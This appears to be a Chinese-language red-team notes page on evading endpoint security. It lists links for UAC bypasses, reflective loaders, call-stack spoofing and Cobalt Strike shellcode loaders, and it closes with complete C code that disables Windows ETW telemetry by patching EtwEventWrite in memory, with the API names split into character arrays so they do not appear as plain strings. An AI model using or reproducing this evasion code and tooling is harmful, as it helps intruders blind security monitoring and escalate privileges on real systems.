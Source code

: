 # 基础学科
* 反射加载器 [ https://github.com/monoxgas/sRDI ]
* 调用栈伪造 [ https://github.com/WithSecureLabs/CallStackSpoofer ]
# 常见终端绕过（或检测）技术

## Bypass UAC
* 通过环境变量(DLL)劫持iscsicpl, 不支持win7 [ https://github.com/zha0gongz1/iscsicpl_bypassUAC ]
* ICMLuaUtil接口(通杀win7-win11 墙裂推荐⭐) https://github.com/0xlane/BypassUAC/blob/master/BypassUAC/main.cpp

## CS(SHELLCODE) 内存检测
* https://github.com/thefLink/Hunt-Sleeping-Beacons

## CS(SHELLCODE) 加载器
* AceLdr [ https://github.com/kyleavery/AceLdr ], 具备`shellcode`运行时加解密, 调用栈伪造等特性 (TitanLdr框架 + FOLIAGE + RET_ADDR_SPOOFING)
* TitanLdr [ https://github.com/kyleavery/TitanLdr ], 原版 D2H 的`shellcode`加载器, 粗略看过一遍


## Bypass ETW
```C

int DisableETW(void) {
	unsigned char strVirtualProtect[] = { 'V','i','r','t','u','a','l','P','r','o','t','e','c','t',0x0 };
	unsigned char strFlushInstructionCache[] = { 'F','l','u','s','h','I','n','s','t','r','u','c','t','i','o','n','C','a','c','h','e',0x0 };
	WCHAR strKernel32dll[] = { 'K','e','r','n','e','l','3','2','.','d','l','l',0x0 };
	WCHAR strNtdlldll[] = { 'N','t','d','l','l','.','d','l','l',0x0 };

	VirtualProtect_t VirtualProtect_p = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), (LPCSTR)strVirtualProtect);
	t_FlushInstructionCache pFlushInstructionCache = (t_FlushInstructionCache)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), strFlushInstructionCache);

	DWORD oldprotect = 0;

	unsigned char sEtwEventWrite[] = { 'E','t','w','E','v','e','n','t','W','r','i','t','e', 0x0 };

	void* pEventWrite = hlpGetProcAddress(hlpGetModuleHandle((LPCSTR)strNtdlldll), (LPCSTR)sEtwEventWrite);

	VirtualProtect_p(pEventWrite, 4096, PAGE_EXECUTE_READWRITE, &oldprotect);

#ifdef _WIN64
	memcpy(pEventWrite, "\x48\x33\xc0\xc3", 4); 		// xor rax, rax; ret
#else
	memcpy(pEventWrite, "\x33\xc0\xc2\x14\x00", 5);		// xor eax, eax; ret 14
#endif

	VirtualProtect_p(pEventWrite, 4096, oldprotect, &oldprotect);
	pFlushInstructionCache(-1, pEventWrite, 4096);
	return 0;
}

// https://github.com/Allevon412/BreadBear/blob/4f1f5da39b423f0655df9338e01c8b733c6d1152/stage1/Evasion.c
```
